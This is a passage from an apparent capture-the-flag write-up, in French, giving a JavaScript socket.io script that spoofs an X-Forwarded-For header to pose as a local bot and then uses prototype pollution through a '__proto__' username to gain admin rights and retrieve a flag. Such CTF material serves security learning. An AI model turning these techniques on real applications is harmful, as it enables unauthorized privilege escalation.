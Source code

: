 Voici une proposition d'implémentation JavaScript permettant de récupérer le flag:

```js
const io = require('socket.io-client');

// Util function : setTimeout as a Promise
const wait = async (time = 500) => new Promise(resolve => setTimeout(() => resolve(), time));

/**
 * Create a new socket
 * @returns {io.Socket}
 */
const createClient = async (options = {}) => await new Promise(resolve => {
    const socket = io('http://challenge.ctf.bzh:XXXXX/', options);
    
    socket.onAny((...args) => console.debug('[DEBUG]', ...args));
    
    socket.on('connect', () => {
        console.log('Connected');
        resolve(socket);
    });
});

const main = async () => {    
    // Create a second client, and abuse of the X-Forwarded-For header to log as a bot
    const botClient = await createClient({ extraHeaders: { 'X-Forwarded-For': '127.0.0.1' }});
    botClient.emit('loginAsBot', { username: 'evilBot' });
    
    // Create a first client and log in as a standard user
    const adminClient = await createClient();
    adminClient.emit('login', { username: 'Adam' });
    
    await wait();
    
    // // Now we have a bot client, report the standard user with a non-standard reason: isAdmin
    // // This will polute the Client object with isAdmin = 'suspiciou'
    botClient.emit('reportClient', { username: 'Adam', reason: 'isAdmin' });

    const client = await createClient();
    client.emit('login', { username: '__proto__' });

    await wait();

    client.emit('sendMessage', { message: 'isAdmin' });

    await wait();

    adminClient.emit('banClient', { message: 'isAdmin', reason: 'of course' });

    adminClient.emit('getBanList');

    await wait();

    const flagClient = await createClient();
    flagClient.emit('loginAsAdmin', { username: 'whatever', password: 'whatever' });
}

main();
```